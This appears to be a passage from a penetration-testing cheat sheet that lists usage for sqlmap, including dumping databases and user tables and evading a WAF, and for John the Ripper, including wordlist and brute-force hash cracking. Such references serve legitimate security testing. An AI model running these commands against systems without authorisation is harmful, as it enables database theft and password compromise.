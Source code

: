 
### **4. Sqlmap - SQL Injection Tool 💉**

**What it does:** Automatically finds and exploits SQL injection

**Why it's critical:** SQL injection = instant database access

**Basic Usage:**
```bash
# Test a URL
sqlmap -u "http://target.com/page.php?id=1"

# Use cookies
sqlmap -u "http://target.com/page.php" --cookie="session=abc123"

# Dump database
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Dump tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Dump data
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump
```

**Pro Settings:**
```bash
# Full automation
sqlmap -u "URL" --batch --dbs

# Bypass WAF
sqlmap -u "URL" --tamper=space2comment
```

**Master Level:** Can bypass advanced WAFs and find blind SQL injection

---

### **5. John the Ripper - Password Cracker 🔓**

**What it does:** Cracks password hashes

**Why it's critical:** Passwords are often the weakest link

**Basic Usage:**
```bash
# Crack simple passwords
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt

# Crack with rules (variations)
john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes.txt

# Brute force (slow but thorough)
john --incremental hashes.txt
```

